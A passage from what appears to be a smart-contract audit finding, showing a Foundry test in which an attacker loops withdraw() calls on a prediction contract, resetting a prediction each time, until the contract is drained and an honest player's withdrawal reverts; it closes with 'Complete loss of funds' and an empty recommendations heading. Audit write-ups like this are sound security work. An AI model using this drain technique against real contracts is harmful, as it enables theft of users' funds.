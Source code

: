 ```Solidity
        scoreBoard.setResult(2, ScoreBoard.Result.First);
        scoreBoard.setResult(3, ScoreBoard.Result.First);
        scoreBoard.setResult(4, ScoreBoard.Result.First);
        scoreBoard.setResult(5, ScoreBoard.Result.First);
        scoreBoard.setResult(6, ScoreBoard.Result.First);
        scoreBoard.setResult(7, ScoreBoard.Result.First);
        scoreBoard.setResult(8, ScoreBoard.Result.First);
        vm.stopPrank();

        vm.startPrank(organizer);
        thePredicter.withdrawPredictionFees();
        vm.stopPrank();

        vm.startPrank(stranger2);
        // make multiple withdrawals until the contract does not have
        // enough funds
        while (true) {
            try thePredicter.withdraw() {
                // any prediction will do, does not have to be valid
                scoreBoard.setPrediction(stranger2, 0, ScoreBoard.Result.First);
            } catch {
                break;
            }
        }
        vm.stopPrank();


        vm.startPrank(stranger3);
        // this should not revert, but it does, because the contract
        // does not have enough funds to pay the player due to the
        // previous multiple withdrawals
        vm.expectRevert();
        thePredicter.withdraw();
        vm.stopPrank();

        // the contract is empty
        assertEq(address(thePredicter).balance, 0);
    }
}
```

## Impact

* Complete loss of funds

## Tools Used

Foundry

## Recommendations
